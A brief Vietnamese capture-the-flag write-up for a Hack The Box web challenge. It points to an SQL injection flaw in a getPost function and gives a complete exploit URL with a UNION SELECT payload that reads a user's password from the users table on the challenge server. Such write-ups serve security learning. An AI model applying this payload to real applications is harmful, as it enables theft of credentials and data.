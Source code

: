 
![Alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_tour_blog/img/Untitled5.png)

ở hàm __getPost__ trong tệp __database.js__ bị lỗi sqli
![Alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_tour_blog/img/Untitled1.png)

ở đường dẫn __/posts/:id__ dùng hàm getPost này
![Alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_tour_blog/img/Untitled2.png)

ta chỉ cần truy cập vào đường dẫn này là có thể lấy được flag __http://157.245.32.65:32516/posts/0' union select 1,2,3,password from users where username='flagbearer__

[source code của bài này](https://github.com/magnetohvcs/ctf/raw/main/ctf-hackthebox/Auth0-CTF/web_tour_blog/web_tour_blog.zip)
